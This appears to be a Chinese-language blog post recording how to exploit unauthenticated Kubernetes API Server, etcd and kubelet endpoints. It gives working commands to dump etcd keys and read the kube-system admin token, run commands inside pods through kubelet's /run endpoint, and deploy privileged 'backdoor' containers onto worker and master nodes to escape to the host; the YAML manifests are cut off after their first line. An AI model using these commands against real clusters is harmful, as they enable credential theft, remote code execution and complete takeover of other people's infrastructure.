

最近测试了一些真实的云原生场景，记录一下比较常见和危害较高的漏洞利用。
1. Kubernetes API Server 未授权访问
1.1 漏洞判断
老版本的Kubernetes API Server端口是8080，通过HTTP即可访问，新版本Kubernetes API Server端口是6443，通过HTTPS访问。一般是这两个端口，但也不排除用80、8080等其他非标准端口。
如果存在未授权漏洞，则会出现如下类似页面
如何判断存在该漏洞呢，可以访问/pods 或者/apis等路径来确定。如果不存在该漏洞，则需要认证，访问就会出现Unauthorized，forbidden: User \"system:anonymous\" cannot get path等提示。
1.2 漏洞利用
如果存在Kubernetes API Server未授权访问，意味着可以控制整个集群，危害是相当大的。
下载kubectl
1 | #https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/ |
尝试读取集群节点
1 | ./kubectl -s https://ip:6443 --insecure-skip-tls-verify get nodes |
如果读取节点成功，则就可以执行常规的kubectl命令。比如查看pods、部署特权容器等等。如果是https，需要认证，如果是开了匿名访问，随便输入账号密码就可以认证成功
2. ETCD未授权访问
etcd端口默认是2379，如果配置不当则存在未授权访问，如果存在未授权访问我们可以获取到集群的凭证等重要信息，进而控制集群
2.1 漏洞判断
安装客户端工具
直接在github上下载，解压后里面就有etcdctl
1 | https://github.com/etcd-io/etcd/releases |
判断是否存在未授权访问我们可以执行如下命令
1 | ./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=ip:port get / --prefix |
2.2 漏洞利用
漏洞利用，我们可以读取kubernetes的 kube-system admin账号的token，从而接管集群
查看有哪些secrets
1 | ./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=ip:port get / --prefix --keys-only | grep /secrets/ |
如果存在/registry/secrets/kube-system/admin-user-token-xxx，我们就可以读出token
1 | ./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=ip:port get /registry/secrets/kube-system/admin-user-token-xxx |
通过token就可以使用kubectl接管集群了
1 | kubectl --insecure-skip-tls-verify -s https://ip:6443 --token "$toekn" get nodes |
3. Kubelet未授权访问
Kubelet 是与master中的kube-apiserver做交互的组件，接受master发送的消息，然后做对应处理。10250端口是kubelet与apiserver进行通信的主要端口，所以我们在做测试的时候主要探测10250端口，此外还有10255端口可以查看Pods信息等。
3.1 10255端口kubelet未授权访问
可以通过访问10255端口的/pods路径来确定是否存在该漏洞

3.2 10250端口未授访问导致命令执行
同样我们可以访问10250的/pods路径来判断是否存在该漏洞
我们可以使用kubeletctl工具：https://github.com/cyberark/kubeletctl，注意区分不是kubectl，kubectl用于与api server交互，kubeletctl用于与kubelet服务交互
使用这个工具我们可以执行如下命令查看POD NAMESPACE CONTAINERS
1 | ./kubeletctl_linux_amd64 pods -s ip --port 10250 |
比如我们查到的信息如下
| POD | NAMESPACE | CONTAINERS |
|---|---|---|
| trace-a-lb-9fdfa | kube-system | trace-a-df |
| calico-node-g8ack | kube-system | calico-node install-cni |
通过查到的信息，构造使用如下命令可以在指定Pod里执行命令
1 | curl -k https://ip:10250/run/$NAMESPACE/$POD/$CONTAINERS -d "cmd=whoami" --insecure |
也即(这里我们使用的容器是install-cni，而不是calico-node，一个pod可以对应多个容器)
1 | curl -k https://ip:10250/run/kube-system/calico-node-g8ack/install-cni -d "cmd=whoami" --insecure |
进入容器后，就可以读取token，使用env命令获取api server地址，然后使用token访问api server。
4. 控制集群
除了kubelet未授权访问获取到的token权限较低外，Kubernetes API Server未授权访问以及etcd未授权访问都可以通过后续操作控制集群，方式如下。
我们可以部署一个特权容器，然后逃逸到宿主机上，我们可以将部署的容器的污点调到master上，从而将特权容器部署到master节点上，逃逸出去就直接获取到了master节点的权限。
4.1 部署到普通节点上
1 | kubectl -s https://ip:6443 --insecure-skip-tls-verify apply -f backdoor-deployment .yaml |
- backdoor-deployment.yaml
1 | apiVersion: apps/v1 |
4.2 部署到master节点上
- backdoor-deployment-master.yaml
1 | apiVersion: apps/v1 |
顺便记录一下滑动到非master节点
- backdoor-deployment-slave.yaml
1 | apiVersion: apps/v1 |